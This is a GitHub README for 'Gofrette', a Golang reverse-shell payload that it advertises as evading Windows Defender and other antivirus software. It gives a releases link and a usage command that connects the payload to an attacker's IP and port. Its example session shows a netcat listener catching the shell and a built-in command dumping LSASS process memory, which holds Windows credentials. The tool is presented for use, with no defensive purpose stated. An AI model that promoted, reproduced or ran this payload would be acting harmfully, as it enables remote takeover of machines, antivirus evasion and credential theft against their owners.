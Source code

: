 
<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="https://cdn-icons-png.flaticon.com/512/1076/1076284.png"> </a>
</p>


# Gofrette

Gofrette is a reverse shell payload developed in Golang that bypasses Windows defender and many others anti-virus.
<p align="center">
  <a href="" rel="noopener">
 <img src="https://antiscan.me/images/result/aB0uZL38cghZ.png"> </a>


## Releases
https://github.com/Enelg52/Gofrette/releases

## Usage

```bash
.\gofrette.exe -a [ipadress] -p [port]
```

## Example
````raw
//target
PS C:\Users\enelg> go run .\gofrette.go -a 127.0.0.1 -p 1234
Connected... :)
````

```raw
//attacker
❯ rlwrap nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 127.0.0.1 37458
C:\Users\enelg>help
exit : exit terminal
dump : dump lsass in /tmp
C:\Users\enelg>dump
[+] Get process id
[+] Dump process 900
[+] Process dumped
[+] The dump is under C:\temp\lsass.dmp
C:\Users\yanng>
```


## Contributing
Pull requests are welcome !
